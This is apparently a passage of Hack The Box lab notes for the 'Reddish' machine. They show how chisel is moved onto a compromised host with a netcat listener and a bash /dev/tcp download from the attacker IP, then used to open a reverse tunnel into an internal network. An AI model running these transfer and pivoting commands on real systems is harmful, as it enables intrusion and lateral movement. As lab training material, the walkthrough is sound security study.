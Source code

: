 	cp chisel ~/HTB/Lab/reddish/www

Get chisel to target:

	nc -lvnp 80 < chisel								// serve
	bash -c "cat < /dev/tcp/10.10.16.12/80 > chisel"	// get
	md5sum chisel										// check integrity
	chmod 777 chisel

Reverse pivot:

	chisel server -p 8000 -reverse -v					// 1. Server listens on 8000.	// NOTE THE FINGERPRINT
	./chisel client <kali_box>:8000 ...					// 2. Client connects to server.
	./chisel client <kali_box>:8000 R:8001:<target>:80	// 3. Client: "Hey, I've opened a hole for you (port 8001)."
	./chisel client 10.10.16.12:8000 R:8001:172.19.0.3:80
	
	./chisel client --fingerprint <server_fingerprint> 10.10.16.12:8000 R:127.0.0.1:8001:172.19.0.3:80
	
```
^ this is the secure way to run chisel. Using the server's fingerprint in the client ensures that only you are connecting to the server. Also, specifying 127.0.0.1 limits the tunnel to only people on the local host, not the entire network.
```



So on our kali_box we can:

	curl 127.0.0.1:8001	// run curl on our <kali_box>, out of port 8001, to <target> port 80

```
./chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by ./chisel)
```

^ because of the error I'm going to use a pre-compiled version on Github so it is more compatible. [^3]

Try again with precompiled binary:

	curl 127.0.0.1:8001

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
        <title>Reddish</title>
        <script src="assets/jquery.js" type="text/javascript"></script>
        <script type="text/javascript">
                                                $(document).ready(function () {
                                                                incrCounter();
                                                    getData();
                                                });

                                                function getData() {
                                                    $.ajax({
                                                        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=get hits",
                                                        cache: false,
                                                        dataType: "text",
                                                        success: function (data) {
                                                                                        console.log("Number of hits:", data)
                                                        },
                                                        error: function () {
                                                        }
                                                    });
                                                }

```

[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html